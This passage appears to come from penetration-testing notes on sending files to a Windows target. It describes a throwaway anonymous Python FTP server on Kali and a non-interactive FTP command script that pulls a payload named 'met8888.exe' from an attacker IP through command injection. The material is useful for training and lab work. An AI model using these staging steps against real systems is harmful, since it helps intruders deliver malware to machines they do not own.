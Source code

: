 ### **Starting the Server**

You can [definitely](https://hackerkitty.wordpress.com/2014/10/24/install-ftp-server-on-kali-linux/) [install](http://www.gosecure.it/blog/art/93/note/install-ftp-server-on-kali-linux/) a full-featured FTP server like `vsftpd` in Kali, but I find that’s often overkill. I just want a simple, temporary FTP server that I can spin up and down to share files. The best way to do this is with Python

#### **Python**

The `pytftpd` library, like the HTTP one above, lets you spin up a Python FTP server in one line. It doesn’t come installed by default, but you can install it with apt:

sudo apt install python-pyftpdlib

Now from the directory you want to serve, just run the Python module. With no arguments it runs on port `2121` and accepts anonymous authentication. To listen on the standard port:

One benefit of using FTP over HTTP is the ability to transfer files both way. If you want to grant the anonymous user write access, add the `-w` flag as well.

### **Downloading the files**

As mentioned earlier, Windows has an FTP client built in to the PATH. You can open an FTP connection and download the files directly from Kali on the command line. Authenticate with user `anonymous` and any password

```text
ftp 10.10.14.160
anonymous #user asked
(en blanco) #password asked

binary #to set type to binary
get binario.exe #to receibe binary

bye
```

Now this is great if you have an interactive shell where you can actually drop into the FTP prompt and issue commands, but it’s not that useful if you just have command injection and can only issue one command at a time.  
Fortunately, windows FTP can take a “script” of commands directly from the command line. Which means if we have a text file on the system that contains this:

```text
#script for ftp
open 10.9.122.8
anonymous
whatever
binary
get met8888.exe
bye
#Then run
ftp -s:ftp_commands.txt
```
